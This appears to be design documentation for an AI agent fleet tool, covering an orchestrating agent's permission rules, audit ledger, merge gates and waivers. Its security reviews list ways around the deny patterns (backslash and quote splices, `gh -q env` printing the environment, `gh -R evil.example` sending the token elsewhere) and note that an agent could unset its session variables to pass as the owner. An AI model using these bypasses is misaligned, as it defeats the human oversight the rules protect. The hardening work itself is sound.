  orchestrator's prompt itself; it escalates. If you want it to answer under your standing orders, grant exactly `fleet-switchboard decisions answer *`
  (and `resolve *`) knowingly, or step 2 decides who answers.
- Expansion bypasses: `$`, `{`, `}` and `~` anywhere in a command are denied; `*`, `?` and `[` are already denied by the scanner. OpenCode normalises `\`
  to `/` in both the pattern and the command, so a backslash guard would deny every path; `./` and `../` anywhere are denied instead (`.\ssh` is `./ssh`).
  Dot-segments (`/.x`, ` .x`, `:.x`, `=.x`) are denied everywhere, plus secret-looking names for the readers, `/etc` and friends. The `read`, `grep`
  and `glob` tools deny `*/.*` and secret names too.
- `az` is allowed only as `az <group> [<sub>] show|list|list-usage` (any `*secret*`, `*credential*`, `*key*`, `*connection-string*`, `*get-access-token*` stay denied; `az containerapp show` and `revision list` are reads and allowed) (verb in the verb position, so `az vm resize --name show` cannot match), plus `graph query`,
  `monitor log-analytics query`, `webapp log tail`. `az account|ad|rest|login|extension|appconfig|deployment|webapp config|app-insights`
  and `--debug` are denied. `gh api` only as `gh api repos/*`, without `..`, contents, logs, actions, keys, secrets, user, notifications.
- `gh`: the owner's words cover comments and close/merge; the owner's later answers also covered reopen, edit, ready and review. `--approve` is denied
  (an approval can satisfy the independent-review rule); `gh issue close|reopen|edit`, `gh pr edit|ready|reopen` remain on his answers.
- `curl` is denied (second review). `git log -p|-S|-G` and `git show *:*` are denied; `git show HEAD`/`git diff` can still show a committed secret. A backslash
  inside a secret-looking filename that is not in a dot-directory (`id_\rsa`) is not caught.

### Decisions and orders are allowed again, with the CLI as the lock (#105, cos decision)

- The Chief of Staff's permissions allow `decisions answer|resolve|escalate|supersede` and `orders add|remove` as exact patterns
  (`fleet-switchboard <noun> <verb> *`). `decisions batch` stays denied (it is an orchestrator's command). Any global flag before the noun or verb
  (`decisions --repo X answer`, `orders --cos add`) matches no allow and is denied explicitly.
- **The CLI keeps the Chief of Staff to its own tier.** `answer`, `resolve` and `supersede` run as the chief-of-staff role refuse any decision that
  is not on the `cos` tier (an owner's, `human`, one); the refusal is audited (`decisions.refused`). `escalate` of a human-tier one is a no-op as before.
  You, in a plain shell, are unrestricted. Tested per subcommand and per tier (`TestCosAnswersOnlyItsOwnTier`). Two baseline goldens changed
  on purpose (a cos `resolve`/`supersede` of an owner-tier item is now refused).
- **Every `orders add|remove` by the Chief of Staff is seen at once.** The command posts a comment on the charter (exact text, who ran it, "if the
  owner did not give this order, remove it") and records a heads-up (`order-notices.json`, kind `notice` in the Heads-up section of the panel)
  that drops after a day or when you run `fleet-switchboard notice ack <id>` in a plain shell (an agent is refused). The order stands if the
  comment fails; the command then says so and exits 1.

**What a heads-up row says (leading with what differs).** The panel's row is 34 characters wide, so the part that differs comes FIRST and only the text is cut: an order heads-up reads `<repo>#<charter> order +: <text> (cos)` (`+` added, `-` removed). **A burst is one entry**: orders of the same action by the same actor on the same charter within `order_notice_burst_minutes` (default 10; 0 groups nothing; a window counts from the first order of the group) read `<repo>#<charter>: 19 orders added by cos: <first words of the first order>`; its id is the first order's id plus the count (`order:<repo>#N.<time>+19`), its note lists every member id, and `notice ack <that id>` drops the whole burst (the owner only, in a plain shell, as before) **only if it still holds the count in the id**: an order that joined after the row was shown makes the ack refuse (`changed since it was shown`) and drop nothing, so nothing is dropped unseen; acking an old single order id still drops just that one. A PR heads-up reads `#<number> <title>`, with the repo's short name in front only when the repo is not the configured `intent_repo` (with none configured the form is unchanged). The ids of PR heads-ups do not change.

### Second review (#108 at fa7dc6f)

- Shell text splices: quotes are denied in every read command (`git cat head tail grep wc ls az gh` reads, merge/ready/reopen); free text (`send`, `report`,
  `--body`) keeps them, and each dangerous flag has guards for any prefix followed by a quote or slash (`--ad"min"`, `--ad\min`, `--body-fi"le"`), plus
  `--"` and `-"`. `.e?v` globs are already denied by the scanner. `gh pr review` is denied outright (comment with `gh pr comment`).
- `curl` is denied for the Chief of Staff: use `gh api repos/...`.
- Not solved by patterns: a quote inside free text can still hide an arbitrary flag spelling that has no guard; the guards cover the flags that matter.

### Third review (#108 at eaad941): the backslash class

OpenCode normalises `\` to `/` in the text the rules see; the shell then removes the backslash, so `--\admin` ran as `--admin`. A deny list cannot tell `a\b` from a
path `a/b`. What was done instead:
- `*-/*` is denied (every `--\flag` and `-\X`), plus every dangerous flag with every prefix followed by `/`, a quote or nothing (`--a/`, `--ad/`, ...).
- Mid-word splices cannot be denied, so the shapes that carried names are positive lists: **no `cat|head|tail|wc|grep|git grep` in the shell** (the `read`, `grep` and
  `glob` tools see the real path), and `gh api` only as `repos/*/*/issues[/*]`, `pulls[/*]`, `commits`. `az` has no `--query` (and capitalised secret spellings are denied).
- Plain tokens only for every non-message command: `! # ( ) [ ] { } < > & ; | " '` are denied after the command (a `#` stays for `fleet-switchboard` refs). Message
  commands (`send`, `report`, `remind`, `notice`, `intent`, `decisions answer|resolve|escalate|supersede --note`, `orders add`, `gh ... comment|close|edit`) keep quotes; `$` and backtick are denied everywhere.
- Advisory, not changed: `decision_actor` treats an unidentifiable caller as "you"; the Chief of Staff cannot reach that through its permissions (env prefix, `env` and `--from` are denied or Lab-only).
- The replay corpus now holds the splice class explicitly (backslash after the dash, mid-word, quote, concatenation, `$IFS`, brace, glob, in every allowed command shape).

### Fourth review (#108 at 5308be7)

`gh ... -q env` printed the process environment (gh's jq has `env`). The short `-q` and `-t` (and `gh * --q*`, and a `-?q` cluster such as `-sq`) are denied for every `gh` shape, with the
`-\q` splice already covered by `*-/*`. Also denied: `gh api --verbose|--include|--preview|--cache|--slurp|-i`, `git --orderfile|-O`. Left as documented residuals: patch content of committed
secrets, the `read`/`grep`/`glob` tools' resource (the shell replay cannot exercise them), the `decision_actor` fail-open (advisory; unreachable from the Chief of Staff's permissions).

### Fifth review (#108 at f08f99e): no foreign host for `gh`

`gh -R evil.example/o/r ...` or a foreign-host URL would send gh's request (and token) to that host. Denied for every `gh` shape: `-R`/`--repo` in any host form (`HOST/OWNER/REPO`, a dot before the first slash, `@`),
and, for the read and merge shapes, any `://` or `@` argument and `gh api http*`; for the comment/close/edit shapes a URL in first (selector) position. `-R OWNER/REPO` stays allowed. A URL
inside free text, or a selector URL placed after flags in a comment/close/edit command, is not caught (documented residual; the message commands must keep their text).

### The Chief of Staff's permissions are a focus, not a fence (#105 premise correction)

The rules keep the Chief of Staff (and its subagent, which has the same list minus `handoff` and `launch`) on its job; they do not defend against it. The list is generated
by `tools/cos-permissions-proof/gen_permissions.py` (a test checks the agent files equal its output; run it to regenerate). Base `* * deny`, last match wins, any deny denies, so no deny can have an exception: guards are anchored to the command they guard,
and the text of `send`, `report`, `remind`, `notice` and `intent` messages is never matched by a path or flag guard.
- **Loosened (PR #108 had denied these):** pipes over read output (`grep cut head tail sort uniq wc jq tr`), `gh --jq/-q/--template`, `timeout N` and `sleep`, `$(...)` (the inner command is evaluated on its own, so it
  must itself be allowed: `$(cat <temp dir>/msg.txt)`), a heredoc `cat > <temp dir>/file`, `fleet-switchboard handoff` and `launch` (any `--agent` except chief-of-staff and cos-subagent), `herdr` list/get/read of workspaces, tabs, panes and agents, `api snapshot`, rename and focus of a workspace or tab,
  `az --query`, quotes, backslashes, braces.
- **Still denied:** `az containerapp exec`, editing or writing files outside the opencode temp dir, builds and tests, `git push`/commit/checkout, deploys, secret VALUE reads, `az` writes, `gh` repo/secret/release/workflow-run/`--admin`/`--auto`/approve, `gh api` writes, `curl`, `herdr agent prompt`, `pane send`, send-keys, start, stop and close, and paths outside the fleet's repos, the temp dir and the switchboard config, state and opencode config dirs (those three: read only).
- **Read vs write of the three config dirs:** reads are allowed (standing orders, audit, installed definitions); redirects and the edit tool are denied there. Limits: the file guards name the places they keep out (`.ssh`, `.aws`, `Documents`, ...) rather than allowing only the repos, because a deny cannot carve out an exception.
- Proof: `python3 tools/cos-permissions-proof/run.py` (job shapes must run, the out-of-job corpus must be denied, nothing asks). Rollback: restore the previous definition files.

## Plan evidence ledger and gates view (#107)

Plan-driven development asks that a worker's proof of each plan scenario, and an evaluator's verdict on it, be held by the
switchboard and not by the worker. This slice adds the record and a read-only view of the gates. **Nothing enforces
anything yet**: no gate refuses a ready or a merge, and the `gh` shim is unchanged.

**Pull requests that share files (#818).** `gates <pr>` may print one extra line, `shares <file>, <file> with #N, #M`, when another open pull request of the same repository changes at least one of the same files: the first 3 files and the first 5 pull requests, sorted. It comes from ONE bounded read in the command, `gh pr list --state open --json number,files,changedFiles`, capped at **50 open pull requests and 100 files each**, cached for the call; the daemon's passes make no such read. A pull request whose list (its own or another's) is unreadable, truncated or over the cap is left out, so there is never a wrong line, and nothing is said about it. In the same way `decisions` prints, under its list, `merge order: #748, then #736 (shared files)` for held pull requests that share files, the one that has waited longest first (one read per repository with two or more held pull requests). Both are advisory: nothing blocks, labels or changes an exit status.

**The ledger** is `plan-ledger.jsonl` in the state directory (mode 0600), append-only. Each entry carries the hash of the
one before it, so an edit, a deletion or a reordering is found when the file is read, and a ledger whose chain is broken
takes no new entry. It is tamper-**evident**, not tamper-proof. The chain finds an edit, a deletion or a reordering. A second file, `plan-ledger.head`, holds the sequence number and hash of the newest entry, so cutting entries off the end is found too; and every `plan.*` audit line carries the chain hash it produced, so a full rewrite with recomputed hashes disagrees with the audit. A process that can write the whole state directory (the ledger, the head file and the audit log) can still forge all three. Entries are bound to the plan's **plan hash** (from `plan check`: editing the plan, even a constraint, voids
them) and to the PR's **head** (a push voids them; the view shows them as void, with the reason, rather than hiding them).

| Command | What it records |
|---|---|
| `fleet-switchboard prove <scenario> --pr <repo#N> --evidence <link or text> [--result pass\|fail] [--command ...] [--head <sha>] [--plan <source>]` | a PROOF by the calling agent (identified from its session, as for `send`): what it ran and saw, the head, the environment, the plan hash. Evidence is redacted and clipped. The plan must pass `plan check`; the scenario must exist and be claimed per PR (an epic-claimed scenario is proven at the epic head). **Several scenarios may be named** (`prove S3 U1 --pr ...`): each gets one line. A recorded one prints `recorded proof #N: <id> <result> at <head> (<pr>), bound to plan <hash prefix>` on standard output; one already proven at the same head, plan hash and result prints `already recorded proof #N: ...` (and is not written again); one that was not recorded prints `not recorded: <id>: <reason>` on standard error (not in the plan, claimed at the epic); this holds when the ONLY id named is such a scenario too: it exits **4**. Exit **0** when every named scenario is recorded now or already was, **4** when any was not recorded (distinct from **2**, a problem with the whole command: no plan, a failing `plan check`, no evidence, an unknown head; nothing is recorded then) |
| `fleet-switchboard verdict <scenario> --pr <repo#N> --as ci\|tester\|reviewer\|owner --result pass\|fail` | a VERDICT, only as the evaluator the scenario names, only by an agent listed for it in the config key `plan_evaluators`, and never by a writer of the PR |
| `fleet-switchboard gates <repo#N> [--json]` | nothing: it reads |

**The plan is the PR's, not the writer's:** the `PLAN: <link>` line of the PR body, else the plan of the PR's first ledger entry. `--plan` may only repeat it (or name the first plan when there is none yet); a different one is refused. Change the plan by changing the PR body's `PLAN:` line, which voids the earlier entries (the view says `PLAN CHANGED`). The plan's hash is computed from the GitHub text at that link.

**Who may be an evaluator is configuration, and the default is nobody.** `plan_evaluators` maps an evaluator to fleet agent
names, for example `{"reviewer": ["reviewer-1"], "tester": ["tester-1"]}`. An evaluator with no names cannot be recorded
for, which keeps a fresh install from accepting verdicts nobody was trusted to give. The **writers** of a PR are the author GitHub reports for it, anyone who recorded a proof for it, and the sender of its `notice pr`; a verdict is refused until at least one writer is known, so a writer that declared nothing cannot be its own evaluator; an author's verdict is refused when recorded, and ignored by `gates` if it is
in the file anyway. The caller's identity is the session-based one, a guard against mistakes: it does not stop an agent that sets another agent's session variable. `verdict` requires `--evidence` like `prove`, and `--head` must be the PR's head. A scenario that still names the old personal evaluator spelling is judged by `owner`.

**Testers from the launch record (#372).** The `tester` list is the configured one PLUS every running agent whose launch record (`launch --role tester`, kept
in its session's fleet metadata) says: role `tester`, the PR's repo, a boss whose own record is `orchestrator` for that same repo, and **launched by that
boss** (`launched_by`: `launch` records the agent that ran it, as its pane identified it; a launch from a plain shell, or from before this record existed,
does not count: use the configured list); a retired tester does not count. So a tester launched by a repo's orchestrator may record tester verdicts for that
repo and no other, and a coder cannot mint one by naming an orchestrator as its boss. This widens who can record a verdict, and only for `tester`:
`reviewer`, `ci` and `owner` never come from a launch record. **It is a guardrail, not a boundary:** the record is written at launch from the caller's pane
identity (the session-based guard of #138, which a determined local agent can spoof), and the boundary that matters is who may run `launch`. A tester is
refused when it is a writer of the PR, runs in the session of a writer, or is the same agent as a coder launched on its work item. Each verdict a launched
tester records is audited with the launch record it relied on (`launch_record` in `plan.verdict`), and `status` lists the resolved testers with their
source (`config` or `launch record`). If the running agents or the retired list cannot be read, no launched tester counts (only the configured list does): a missing `retired.json` means nobody is retired, but a corrupt, empty or non-map one disables every launched tester, audited as `testers.retired_unreadable` and said in `status` ("retired file unreadable: launch-record testers disabled").
The rules are `bin/launch_testers.py`.

**Verdicts for a work item with no pull request (#770).** A work item that is an ISSUE (a production-operations item) gets tester and CI verdicts from an independent registered tester. The rules are `bin/item_verdicts.py`; no pull request RULE changes; the ordinary pull request commands (`prove`, `verdict`, `gates ci-record`, `waive`) refuse an ISSUE number and a number with an item registration, so an item's entries are written only by the item commands, and a real pull request is unaffected.

- **Registration.** `launch --role tester --repo R --reports-to <orchestrator> --issue N`, run by that orchestrator (identified by its own pane) for an open issue whose parent chain reaches the orchestrator's charter, makes the switchboard write one ledger entry (`item_tester`: item, tester, session, orchestrator, reference commit) and one audit line `plan.item.register`. A hand-made session record with no such entry registers nothing; the entry lasts 24 hours and one session.
- **Reference commit.** The tip of the default branch when the registration was made, stored in it and never read again. A new registration moves it and voids the verdicts at the old one, as a push does for a pull request.
- **Commands.** `item-prove S1 --item R#N`, `item-verdict S1 --item R#N` (or `--all`; tester only), `gates item R#N`, `gates item-ci-record R#N`. The plan is the one the issue body links with `PLAN:`; an item claims only scenarios `claim_of` reads as `pr` (never an epic one), and in a plan that is not its own only those marked `slice: #N`.
- **Who is refused.** The issue's GitHub author, every agent that recorded an item proof, the registering orchestrator, every non-tester agent working the item or its ask or reporting to that orchestrator, and any agent in one of their sessions. `gates item` reads the writers again (and says NOT READY when the running agents cannot be read), so a tester that later proves for the item loses its verdicts; it counts only entries written by the item commands, and a tester's verdict only if that tester held a live registration for the item when it wrote it. The verdict is appended under the ledger's exclusive lock with the ledger-visible checks (registration, pin, proofs) repeated there; the agents are read before, never under the lock.
- **CI.** Only the repository's own checks, listed as `{name, app}` under `plan_gates.repos.<repo>.item_checks` (default: none, so nothing is accepted), read from the Checks API at the reference commit, which must be on the default branch. `gates item-ci-record` records it as the switchboard; an agent cannot type a `ci` verdict.
- **Audit.** `plan.item.register`, `plan.item.proof`, `plan.item.verdict`, `plan.item.refused`, `plan.item.ci_record`: item, writer and reference commit.
- **Trust.** The caller identity is the pane identity the pull request path already trusts, every agent shares one GitHub account (so GitHub cannot tell two agents apart), and the ledger and the audit are the only writer record: a guardrail, not a boundary.

**`gates`** prints one line per gate G0a to G8 with its status (`ok`, `missing`, `waiting`, `untracked`, `n/a`), who decides
it, and what is missing, and exits 0 when every gate it tracks and that applies to a PR is satisfied, 1 when something is
missing, 2 when it cannot run. Tracked now: **G0a** (the plan passes `plan check`), **G1** (every per-PR scenario has a passing
proof and a passing verdict from its evaluator, at this plan hash and this head), **G4** (CI green at the head), **G5** (the PR
body has a `canon:` line: what was updated, or `canon: n/a <reason>` with a reason), **G6** (waiting while the PR is held for the
owner). Listed but **not tracked yet, and not counted**: G0b (consensus), G0c (approval) and G2/G3 (alignment and code review),
whose records are later slices; G7 and G8 are epic and deploy gates and show `n/a` for one PR.

## `waive`: the logged override of G0 to G5 (#107)

`fleet-switchboard waive <repo#N> --gates G0a,G1,... --reason "<at least 20 characters>" [--head <sha>]` is the chief of staff's override
for a hotfix, per `docs/plan-gate-engine-design.md`. Who: the chief of staff, or the owner at a terminal (the one shared check of `gates mode` and
`verdict --as owner`, `gates_caller_kind`: an unknown session is refused, never read as a person, and a no-session caller must be on a
controlling terminal with no agent process above it, so `env -u` on a pipe is refused; a strong mistake-guard, not a boundary). Which gates: G0a, G0b, G0c, G1, G2/G3, G4, G5.
**G6 (a held PR: the owner's hold), G7 and G8 are refused**, and a hand-written ledger entry naming them is ignored. A **writer of the PR**
(one who recorded its proof or sent its notice, or its GitHub author) cannot waive its gates, and a ledger that does not verify takes no
waiver and honours none. The waiver is a hash-chained ledger entry (`kind waiver`: who, why, PR, head, gates, expiry) and a `plan.waiver`
audit line. It is bound to **the head it was recorded at** (a push needs a new one) and **expires after 24 hours**, the due date of the
retroactive plan; a waiver for another head, another PR or after its expiry does nothing. `gates` and `gates-check` honour a valid waiver:
the gate reads `waived (by <who>, <reason>, due <time>)`, never `ok`, and the report lists `WAIVED (not passed)`. The cos permission corpus
and allowed commands still have to be extended with `waive` (a permission change, held for the owner).

## `gates-check`, the gate modes and the kill switches (#107, slice 3a)

This is step (a) of the gate engine in [docs/plan-gate-engine-design.md](plan-gate-engine-design.md). **No shim calls it and
nothing is enforced**: it is the decision, the configuration and the switches, so they can be tried and measured first.

`fleet-switchboard gates-check <repo#N> --for ready|merge [--json]` answers "is this allowed?" and writes nothing to GitHub (it appends audit lines and updates the per-day counters in the state directory; the counters are best effort and unlocked, so concurrent checks can lose a count). **Exit 0 allow, 10 refuse, 3 fail-open; only 10 refuses**, and a Python exception exits 3, never 10.
`ready` requires G0a and G1; `merge` requires G0a, G1, G4 and G6. G0b, G0c and G2/G3 are untracked and cannot refuse.

**Config `plan_gates`:** `{"repos": {"acme/app": {"mode": "shadow", "enabled": true, "budget_ms": 3000}}}`. A repo not listed is
not opted in (allowed, no output); repos match without regard to case. `mode` is `shadow` (the default: the check is computed and
recorded as `gate.would_refuse`, and the answer is always allow) or `enforce` (refuse with exit 10). `enabled: false` is the
per-repo kill switch: it takes effect at the next command, no restart. The global kill switch is the file `plan-gates.off` in the
state directory: while it exists every repo is allowed, each such check is logged (`gate.killed`) and `status` says so loudly.
`budget_ms` (default 3000, 500 to 30000) bounds one check; past it the check fails open. **Worst case for one gated command** is
the budget plus the shim's own identity lookup (up to 3 s).

**Fail-open.** A timeout, a crash, an unreadable GitHub, a missing config all answer 3 and record `gate.fail_open` (the first of
each kind per repo per day is marked `first_today`). A refusal is `gate.refused`: the two are different events. **A broken ledger**
refuses G1 in `enforce` (and says why) and alarms once a day per repo (`gate.ledger_broken`), never per command.

**Changing a mode** (`gates mode <owner/repo> shadow|enforce|off`, `gates off`, `gates on`, `gates preflight <repo>`) is allowed
for the chief of staff and for a person at a shell with no fleet identity; any other agent is refused and the refusal is audited
(`gate.mode.refused`). It is the session-identity guard of #138: **an uncertain identity (a session id the switchboard does not know) is refused, never read as a person**; a known session that is not a fleet agent, or no session and no pane, is a person. It is a guard against mistakes, not a boundary: an agent that unsets its own session and pane variables looks like a person, and any local process can create the kill file. Switching a repo to `enforce` is **refused until a recorder is registered for `ci`** (`plan_evaluators.ci`), and the same preflight is applied **wherever the mode is read**: a config edited by hand to `enforce` runs as `shadow` while the preflight blocks (logged as `gate.enforce_downgraded`, once a day per repo, and shown in `status` as "enforce REQUESTED but running as shadow"); the config is not rejected, so a bad edit cannot stop the daemon;
`preflight` also lists the evaluators nobody is registered for (a plan that names one cannot get its verdict) and the manual
precondition that the chief of staff be allowed `gates mode` and `waive` before enforcement is switched on, a permission change
held for the owner. The check looks at registered evaluators, not at open PRs' plans, so a later plan naming a newly used
evaluator can still block: the message for a missing verdict names exactly what to register.

**G1 does not pass vacuously.** A plan with no scenario claimed per PR no longer satisfies G1 unless it states
`per-pr scenarios: none because <reason>` (at least 20 characters); then G1 reads `n/a` and the epic gate applies. (The check that
an epic claim names its integration branch is a later `plan check` change.)

`status` prints each opted-in repo's mode with today's counts of checks, refusals, would-refuse and fail-opens. `merge --auto` is
not treated here: when the shim is built, `--auto` is refused in `enforce`, which also stops any flow that auto-merges
`merge-automatic` PRs; that cost is named in the design review and decided with the shim.

## The `gh` shim's gate probe: refuses in an enforcing repo (#107)

The `gh` shim now asks `gates-check` before `gh pr ready` and `gh pr merge` (E1 and E3 of
[docs/plan-gate-engine-design.md](plan-gate-engine-design.md)) and writes the answer down. **A refusal stops the command**: when `gates-check` exits 10 (it does so only for a
refusal that applies in the repo's mode, so a `shadow` repo never refuses) the shim prints the one-line reason to stderr, exits 10
and does **not** run the real `gh`. Everything else runs the real `gh` as before, with its own exit code and output: a fail-open, a
timeout, a missing switchboard, a shape the shim does not understand, a kill switch, the `plan-gates.off` file, a valid waiver.
In an enforcing repo a merge is also **bound to the head that was checked** (the shim adds `--match-head-commit <sha>`; a
different `--match-head-commit` is refused; a push after the check makes the real merge fail), and `--auto` is refused. If the
check names no head the merge is allowed unbound and recorded as a fail-open. Every `--match-head-commit` the caller gave (any spelling: `--match-head-commit X`, `=X`, repeated, empty, without a value) is dropped and replaced by one with the checked head. The shim reads the command line as gh does (combined short flags such as `-sd`, `=value` on any flag, `--auto=false`) and finds the PR as gh would: `-R`, a PR URL, `GH_REPO`, else the real `gh repo view` for the current directory; a PR with no number (no argument or a branch name) is asked of the real `gh pr view`. If it cannot tell which PR or repo, or does not understand the shape, it runs the real `gh` and writes a `fail_open` line to the spool: it never guesses the fleet repo. A refusal is only enforced when the reply says `mode: enforce`, and control characters are stripped from what it prints. **Enforcement needs the way out first:** `gates preflight`, `gates mode <repo> enforce` and every check treat a repo as `shadow` (with the reason) until the installed chief-of-staff definition (`~/.config/opencode/agents/chief-of-staff.md`, or `$FLEET_COS_DEFINITION`) allows `fleet-switchboard waive *` and `fleet-switchboard gates mode * shadow`. The refusal line reads:
`fleet-switchboard: merge of acme/app#12 refused: missing G1: <what is missing>. Way out: ask the chief of staff for a logged waiver
(`fleet-switchboard waive acme/app#12 --gates G1 --reason ...`; never for G6 or G8), or the chief of staff can switch the repo to shadow
(`fleet-switchboard gates mode acme/app shadow`).` The spool also gets a `refused` line. `pr create` and `launch` are not enforced here.

What it does: for a PR whose repo is listed under `plan_gates.repos` in the switchboard config (matched without regard to case;
with no `plan_gates`, or another repo, nothing is probed and the cost is zero), it runs
`fleet-switchboard gates-check <repo#N> --for ready|merge --json` with a bound of **3 seconds** (`FLEET_SHIM_GATE_SECONDS`, kept
between 0.2 and 10), after which the child is killed and the command goes on. The check itself records `gate.would_refuse` in the
audit (shadow) and its own `gate.fail_open`. What the shim adds is a line in `gate-failopen.jsonl` in the state directory (mode
0600, at most 256 KB) for the cases only the shim can see: `would_refuse` (the check exited 10), `fail_open` (it timed out, could not
run or exited with anything else, or there is no switchboard). **The file is written by any local process, so the daemon must read it as
untrusted text** (clipped, data only); nothing reads it yet.

Shapes it probes: `pr ready <n>` and `pr merge <n>` with a number, `-R/--repo owner/repo`, or a PR URL
(`https://github.com/owner/repo/pull/N`); a bare number uses the caller's own repo from `whoami --json` (the #138 identity, unchanged).
Shapes it does **not** probe, and passes through: no PR argument (the current branch), a branch name, more than one positional, an
unknown flag, `ready --undo`, `--`, and `pr create` (a new PR has no number before the command runs, so it is checked after
creation in a later slice). A PR URL of a fork is another repo: not listed, not probed. The switchboard's own `gh` calls
(`FLEET_SWITCHBOARD_OWN_GH=1`) are never probed, so the check cannot recurse into itself. Signing and the account environment are
unchanged.

## `launch` checks the plan: shadow only (#107, slice 3c)

`fleet-switchboard launch` now checks, before it creates the agent, that the assignment's brief links a plan that has been
through consensus (E4 of [docs/plan-gate-engine-design.md](plan-gate-engine-design.md), gate G0b). **It records and never
refuses**, in every mode, including a repo set to `enforce`: refusing needs the plan review engine that writes the consensus
record, which is a later slice. The launch always goes on.

The check reads the brief's `PLAN: <link>` line, fetches that plan, runs `plan check` on it (G0a) and looks in the ledger for a
`consensus` entry that passed at the plan's **current plan hash** (G0b); editing the plan, even a constraint, voids it. Nothing writes
a `consensus` entry yet, so while only this slice exists every launch under a plan in an opted-in repo records a `would_refuse`:
that is the expected baseline, and the data is useful for what it says about briefs without a `PLAN:` line or with an unreadable or
failing plan. What it records: `gate.would_refuse` with `for: launch` and the gate and reason (and one line on stderr), or
`gate.fail_open` (a timeout past the repo's `budget_ms`, a crash, an unreadable plan source of GitHub) with the launch going on.

It uses the same configuration as `gates-check`: only a repo listed under `plan_gates` (the launch's `--repo`, else the plan's repo, else
the intent repo) is checked; `enabled: false` and the global `plan-gates.off` file (logged as `gate.killed`) switch it off; the
counters in `status` include it. A `--resume` is not checked. The design exempts a hotfix and the gate engine's own repair
assignments from the launch gate; the check cannot tell them apart yet, so the enforcing slice needs a way to say so.

## Which gates a repo in `enforce` refuses on (`enforce_gates`, #107)

`plan_gates.repos.<repo>.enforce_gates` is a list of the gates a repo in `enforce` **refuses** on: `G0a`, `G1`, `G4`, `G6`, default
`["G0a", "G1"]` (a non-empty list of distinct gates; kept in gate order). `ready` requires G0a and G1, `merge` requires G0a, G1, G4 and G6;
a required gate that is **not listed is reported and allowed**: it appears in the check's `failed` list with `enforced: false`, in the
text as "(reported, not enforced)", and in the audit as `gate.reported`. So a repo in `enforce` with the default list refuses a merge for
a G1 or G0a failure, and never for pending CI (G4) or a `MERGE: captain` PR (G6) until the repo lists them. In `shadow` nothing refuses
and every failing gate is recorded as `gate.would_refuse`, listed or not. `gates preflight`, `gates mode ... enforce` and `status` show the
list in force.

**The refusal an agent sees** is one line: `fleet-switchboard: <ready|merge> of <repo#N> refused: missing <the enforced gates and what is
missing>. Way out: ask the chief of staff for a logged waiver (`fleet-switchboard waive <repo#N> --gates ... --reason ...`; never for G6 or
G8), or the chief of staff can switch the repo to shadow (`fleet-switchboard gates mode <repo> shadow`).` Gates that are only reported are
not named as the reason. (`waive` is not built yet: the line names the path the design defines.)

## The owner's verdict and the built-in `ci` recorder (#107)

**The `owner` verdict** (a scenario whose evaluator is `owner`, or the old personal spelling, which is an alias) is recorded only from
the **owner's own terminal**: a caller with **no agent session at all** (no `OPENCODE_SESSION_ID`, no herdr pane; or a session v2 knows is not
a fleet agent). `verdict <scenario> --pr <repo#N> --as owner --result ... --evidence ...` from there is accepted and recorded as
`by: owner`. A caller **with an agent session, registered or not, the chief of staff included, is refused**, and so is an uncertain identity
(a session the switchboard does not know: #138 refuses it, never reads it as a person); the refusal is audited. All agents share one GitHub
login, so the login cannot be the test; it is the session identity, which is a guard against mistakes and not a boundary (an agent that
unsets its own session and pane variables looks like a person). There is no `plan_evaluators.owner` registry: the list is not consulted.

**`gates <repo#N>` says what is enforced.** In a repo whose mode really is `enforce`, the first line reads `READY for the enforced gates (G0a, G1);
not enforced: G5 missing` (or `NOT READY for the enforced gates (...): open G1`), and the **exit code follows those enforced gates only** (0 ready,
1 not): that is the question `gh pr ready` and `gh pr merge` ask. A repo in `shadow`, unlisted, off, or whose `enforce` is downgraded by the preflight
keeps the old line and the old exit (the whole board). `--all` exits by the whole board in every mode; `--json` adds `enforced`, `ready_enforced`
and `open_enforced` next to the unchanged `ready`.

**The impact floor (#179, slice L3: advisory, writes nothing).** `fleet-switchboard impact floor <repo#N> [--rating SEVERITY/PROBABILITY ...] [--json]` reads one
PR's files and says what the deterministic hold floor would decide. The floor is **paths only**: a PR holds when it adds, changes or **deletes** a file inside its repo's floor
globs (`bin/impact_floor.py` carries the proposal for this repo: `shims/**`, `plugins/fleet-hooks/**`, `templates/**`, `tools/cos-permissions-proof/**`, `bin/plan_ledger.py`, and the logic and table that decide holds, `bin/impact_floor.py` and `docs/review-laws/impact-matrix.json`, which a `force` list keeps out of the docs exclusion;
excluded: `agents/**`, `skills/**`, `docs/**`, `AGENTS.md`; override per repo under `impact_floor.repos.<owner/repo>` with `globs`, `exclude` and `force`, validated as lists of strings: a string where a list belongs is a config error). Matching is **case-insensitive** (the fleet runs on case-insensitive checkouts). A deletion outside the globs never holds,
and **size is never a hold by itself**. The independent rating (`--rating Critical/Remote`, repeatable) uses the standard's categories on the matrix in `docs/review-laws/impact-matrix.json`
(the single source; `Eliminated` is not rated) and **can only add a hold, never lower the floor**: `hold` when the floor holds or any rated cell is `H`, `second-review` for a `2` cell, else `none`.
The daemon's pass (`impact_would_hold_pass`, after the ci recorder, off with `impact_floor.enabled: false` or the global `plan-gates.off` file) judges each open PR of the repos under `plan_gates` once per head,
at most 6 `gh pr view` reads per pass, and records `gate.would_hold` in the audit. **It writes no label, comment or ledger entry**: applying `hold-impact` is slice L4. **An unreadable diff fails towards hold:** when GitHub lists fewer files than the PR changed (its list is capped), or a renamed or copied file has no known source path, the floor decides `hold` with the reason `floor unknown` and the daemon records it (`unknown` in `gate.would_hold`); a rename whose old path is known counts through the old path like a deletion.

**`impact floor` says what the daemon decides (#553).** Its headline is the owner-hold decision `pr_floor_report` already returns for the daemon and the gate (never recomputed in the command): `HOLD for the owner` with each reason (the top tier path and its class, or the independent review's class), `not held for the owner: a second independent review`, or `not held` with why; the older path-floor decision is still printed, labelled as such, below it. The headline always says how many files were read. When GitHub gave fewer files than the pull request changed, a repository with floor globs is HELD (`floor unknown`, as the daemon holds it); in a repository with none the daemon's own answer for the files it read is printed as it is, and the headline says `CANNOT TELL: only N of M files were read`, never `not held`; the same for a renamed or copied file whose source path the list does not carry (`CANNOT TELL: N renamed or copied file(s) with no source path`: with the source listed the daemon counts it and the command shows the top tier path and its class; in a repository with floor globs the daemon holds the unseen source) (the daemon itself reads such a list as `none` there: a pre-existing gap, not changed here). When the rule file cannot be read it prints `HELD ON PURPOSE` and why (exit 0, nothing judged, nothing written). `--json` is the same report as before: `owner_decision` and `owner_reasons` sit next to `decision`, `reasons`, `floor_paths` and `globs`, and equal what `impact hold --dry-run` plans.

